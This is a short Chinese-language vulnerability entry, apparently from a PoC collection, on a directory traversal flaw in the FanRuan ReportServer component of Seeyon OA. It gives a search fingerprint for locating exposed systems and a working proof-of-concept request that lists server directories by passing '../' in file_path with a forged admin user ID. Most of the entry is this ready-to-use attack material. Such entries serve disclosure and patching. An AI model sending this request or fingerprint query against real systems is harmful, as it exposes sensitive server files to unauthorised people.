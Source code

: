 # 

# 致远OA 帆软组件 ReportServer 目录遍历漏洞

## 漏洞描述

致远OA 帆软组件 ReportServer接口存在目录遍历漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

```
致远OA 帆软组件
```

## 网络测绘

```
title="致远A8-V5协同管理软件 V6.1sp1"
```

## 漏洞复现

登录页面

![image-20220824142626725](./images/202208241426793.png)

验证POC

```
/seeyonreport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../&currentUserName=admin&currentUserId=1&isWebReport=true
```

![image-20220824142642510](./images/202208241426552.png)
